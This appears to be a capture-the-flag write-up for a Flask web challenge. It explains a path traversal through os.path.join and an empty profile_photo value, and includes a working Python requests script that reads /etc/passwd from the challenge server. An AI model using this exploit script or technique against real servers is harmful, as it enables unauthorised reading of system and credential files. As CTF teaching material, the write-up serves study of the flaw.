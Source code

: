 The documentation for [`os.path.join`](https://docs.python.org/3.13/library/os.path.html#os.path.join) says that if the second argument is an absolute path, the function ignores the first argument. This means we can perform directory traversal by starting `user.username` with `/`.

The default value for `user.profile_photo` is `None`. In that case, `/app/uploads/default.png` will be served. If we update the file, the value of `user.profile_photo` will be `<hash>.<ext>`, and you cannot control the filename.

Upon closely examining the code, `user.profile_photo` is set to `''` if we fail to upload the file. If the username is `/etc/passwd`, the file path will be `/etc/passwd/<hash>.<ext>`, and saving the file will fail because `/etc/passwd` is not a directory.

```python
if not os.path.exists(filepath):
    try:
        user.profile_photo = "/"+save_filename
        file.save(filepath)
    except:
        user.profile_photo = ''
        flash('Failed to save file', 'error')
        return redirect(url_for('profile_get'))
    finally:
        db.session.commit()
```

Therefore, the next time we access `/profile_picture`, file_path will point to `/etc/passwd`, and the file will be served.

::: details Sample code to read `/etc/passwd` from the server

```python
import requests

# URL = "https://timeless-280e8f94de4a3a53.chal.uoftctf.org/"
URL = "http://localhost:5000/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
user = {
    "username": "/etc/passwd",
    "password": "x"
}
r = s.post(URL + "register", data=user)
r = s.post(URL + "login", data=user)

r = s.post(URL + "profile", files={
    "about_me": "aaa",
    "profile_photo": ("v.jpeg", "xxx")
})

r = s.get(URL + "profile_picture", params={
    "username": "/etc/passwd"
})
print(r.content)
```
:::
